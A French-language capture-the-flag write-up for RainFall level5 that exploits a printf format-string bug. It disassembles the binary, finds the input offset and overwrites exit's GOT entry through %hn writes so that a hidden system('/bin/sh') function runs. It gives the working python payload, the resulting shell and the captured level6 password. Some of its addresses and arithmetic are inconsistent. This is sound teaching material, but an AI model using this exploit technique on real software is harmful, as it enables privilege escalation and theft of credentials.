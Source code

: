 Nous avons un binaire **./level5**
COmmencons par voir les appels aux fonctions:
```sh
level5@RainFall:~$ ltrace ./level5
__libc_start_main(0x8048504, 1, 0xbffff7f4, 0x8048520, 0x8048590 <unfinished ...>
fgets(%p%p%p%p%p%p%p%p%p%p%p%p%p%p
"%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 512, 0xb7fd1ac0)      = 0xbffff540
printf("%p%p%p%p%p%p%p%p%p%p%p%p%p%p\n", 0x200, 0xb7fd1ac0, 0xb7ff37d0, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0x70257025, 0xa, (nil), 0xb7fde000, 0xb7fff53c0x2000xb7fd1ac00xb7ff37d00x702570250x702570250x702570250x702570250x702570250x702570250x702570250xa(nil)0xb7fde0000xb7fff53c
) = 124
exit(1 <unfinished ...>
+++ exited (status 1) +++
```
level5 fini par un exit visiblement avant d'arriver à la fin du programme. On remarque qu'il y a un appel à printf et que printf est vulnérable à l'exploit de format, cherchons l'index: 
```sh
level5@RainFall:~$ ./level5
aaaa%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
aaaa0x2000xb7fd1ac00xb7ff37d00x616161610x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250x702570250xbfff000a0x400xb80(nil)0xb7fde7140x98
```
C'est a l'index 4 que nous retrouvons notre chaîne "aaaa" : 0x61616161.
Passons au désassemblage:

```asm
level5@RainFall:~$ objdump ./level5 -d -M intel

./level5:     file format elf32-i386

Disassembly of section .init:
...
080483d0 <exit@plt>:
 80483d0:       ff 25 38 98 04 08       jmp    *0x8049838
 80483d6:       68 28 00 00 00          push   $0x28
 80483db:       e9 90 ff ff ff          jmp    8048370 <_init+0x3c>
 ...
080484a4 <o>:
 80484a4:       55                      push   ebp
 80484a5:       89 e5                   mov    ebp,esp
 80484a7:       83 ec 18                sub    esp,0x18
 80484aa:       c7 04 24 f0 85 04 08    mov    DWORD PTR [esp],0x80485f0
 80484b1:       e8 fa fe ff ff          call   80483b0 <system@plt>
 80484b6:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484bd:       e8 ce fe ff ff          call   8048390 <_exit@plt>

080484c2 <n>:
 80484c2:       55                      push   ebp
 80484c3:       89 e5                   mov    ebp,esp
 80484c5:       81 ec 18 02 00 00       sub    esp,0x218
 80484cb:       a1 48 98 04 08          mov    eax,ds:0x8049848
 80484d0:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 80484d4:       c7 44 24 04 00 02 00    mov    DWORD PTR [esp+0x4],0x200
 80484db:       00
 80484dc:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484e2:       89 04 24                mov    DWORD PTR [esp],eax
 80484e5:       e8 b6 fe ff ff          call   80483a0 <fgets@plt>
 80484ea:       8d 85 f8 fd ff ff       lea    eax,[ebp-0x208]
 80484f0:       89 04 24                mov    DWORD PTR [esp],eax
 80484f3:       e8 88 fe ff ff          call   8048380 <printf@plt>
 80484f8:       c7 04 24 01 00 00 00    mov    DWORD PTR [esp],0x1
 80484ff:       e8 cc fe ff ff          call   80483d0 <exit@plt>

08048504 <main>:
 8048504:       55                      push   ebp
 8048505:       89 e5                   mov    ebp,esp
 8048507:       83 e4 f0                and    esp,0xfffffff0
 804850a:       e8 b3 ff ff ff          call   80484c2 <n>
 804850f:       c9                      leave
 8048510:       c3                      ret
 8048511:       90                      nop
...
```
Plusieurs choses:
- **main** appel **n** qui appelle **fgets** avec un buffer de 512 octets puis **printf**
- **n** appelle **exit**
- il y a une fonction **o** qui appelle system chargé avec le buffer "/bin/sh" -> c'est évidemment notre cible
```sh
level5@RainFall:~$ gdb -q ./level5
Reading symbols from /home/user/level5/level5...(no debugging symbols found)...done.
(gdb) x/s 0x80485f0
0x80485f0:       "/bin/sh"
```
- **o** n'a pas de protection particulière conditionnant son accès, un jump dans gdb permet d'y accéder, mais il nous faut les droits level6

Il faut donc contourner l'appel a **exit** de **n** pour appeler **o** à la place.
On a vu au précédant hack qu'avec le format **%n** il était possible d'écrire des valeurs à une adresse. Il faudrait donc écraser l'adresse d'**exit** pour la remplacer par celle de **o**.
L'adresse de **o** est **0x080484a4**, celle d'**exit** est **0x8049838**.
> L'adresse de exit issue de la libc change à chaque fois si ASLR est activé, on sait que non dû au message d'accueil du level5, mais on peut vérifier comme ceci:
```bash
level5@RainFall:~$ ldd ./level5
        linux-gate.so.1 =>  (0xb7fff000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        /lib/ld-linux.so.2 (0x80000000)
level5@RainFall:~$ for i in `seq 0 4`; do ldd ./level5 | grep libc; done
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e4e000)
```
> On voit que l'adresse **0xb7e4e000** ne change pas. Pour en savoir plus: https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization

L'adresse de o représente un nombre gigantesque pour être écrit par printf en nombre de caractère, potentiellement cela peut crasher. Nous allons donc écrire l'adresse en deux fois à l'aide de 2 * 2 octets au lieu de 4 octets d'un coup en séparant lower bytes et higher bytes (LOB et HOB) à l'aide de %hn qui n'écrit que le LOB de l'int pointé par %n:

>si HOB < LOB
>[adresse + 2][adresse]%[HOB - 8]x%[offset]$hn%[LOB - HOB]x%[offset + 1]

>si HOB > LOB
>[address + 2][address]%[LOB - 8]x%[offset + 1]$hn%[HOB - LOB]x%[offset]

ici: 0x0804 < 0x84a4 donc options 1
En little endian nous allons commencer à écrire 2 octets dans la dernière partie de l'adresse de exit puis 2 octets dans la première.
Nous convertissons 0x0804 et 0x84a4 en décimal 2056 et 33956 il faut enlever 8 octets pour les 2 adresses puis enlever le nombres d'octets déjà écrit (33956 - 2052) ce qui donne 2044 et 31904, donc on a:
```sh
level5@RainFall:~$ python -c 'print "\x40\x98\x04\x08\x38\x98\x04\x08" + "%2044x" + "%4$hn" + "%31904x" + "%5$hn"' > /tmp/payload
level5@RainFall:~$ cat /tmp/payload - | ./level5

                                                                              b7fd1ac0
```
On dirai que nous avons un shell, essayons **id**:
```sh
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Flag!

